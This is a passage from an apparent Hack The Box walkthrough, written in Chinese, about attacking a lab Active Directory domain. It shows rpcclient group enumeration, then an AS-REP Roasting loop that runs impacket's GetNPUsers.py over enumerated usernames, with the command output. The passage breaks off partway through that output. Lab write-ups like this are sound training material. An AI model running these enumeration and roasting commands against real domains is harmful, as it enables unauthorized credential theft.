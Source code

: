 ```bash
group:[Hygiene Management] rid:[0x45a]
group:[Compliance Management] rid:[0x45b]
group:[Security Reader] rid:[0x45c]
group:[Security Administrator] rid:[0x45d]
group:[Exchange Servers] rid:[0x45e]
group:[Exchange Trusted Subsystem] rid:[0x45f]
group:[Managed Availability Servers] rid:[0x460]
group:[Exchange Windows Permissions] rid:[0x461]
group:[ExchangeLegacyInterop] rid:[0x462]
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
group:[Service Accounts] rid:[0x47c]
group:[Privileged IT Accounts] rid:[0x47d]
group:[test] rid:[0x13ed]
```

```bash
rpcclient $> querygroup 0x200
	Group Name:	Domain Admins
	Description:	Designated administrators of the domain
	Group Attribute:7
	Num Members:1
```



# AS-REP Roasting

GetNPUsers.py 是专门为不需要域身份验证用户申请票据的

以下是 rpc 收集到的用户

```bash
└─# cat users.list                                               
Administrator
andy
lucinda
mark
santi
sebastien
svc-alfresco
```

写一个循环 申请票据

```bash
└─# export PATH=/usr/share/doc/python3-impacket/examples:$PATH            
```

```bash
└─# for user in $(cat users.list); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

[*] Getting TGT for Administrator
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

```